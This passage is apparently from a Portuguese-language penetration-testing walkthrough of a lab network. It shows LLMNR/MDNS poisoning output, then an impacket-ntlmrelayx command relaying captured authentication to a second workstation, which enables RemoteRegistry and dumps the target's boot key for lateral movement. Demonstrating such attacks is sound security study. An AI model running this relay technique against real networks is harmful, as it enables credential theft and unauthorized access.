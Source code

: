 ```

*] [DHCP] Found DHCP server IP: 192.168.0.22, now waiting for incoming requests...
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.102   for name WS02.local
[*] [MDNS] Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02.local
[*] [LLMNR]  Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02
[*] [LLMNR]  Poisoned answer sent to 192.168.0.102 for name WS02
[*] [MDNS] Poisoned answer sent to 192.168.0.102   for name WS02.local
[*] [MDNS] Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02.local


```

E temos agora à disposição as _hashes_ dos utilizadores locais da maquina de destino, que poderemos utilizar para _lateral movement_.

```

┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] Target system bootKey: 0xdef8c5bdb9e10578190e9f3751969b65
```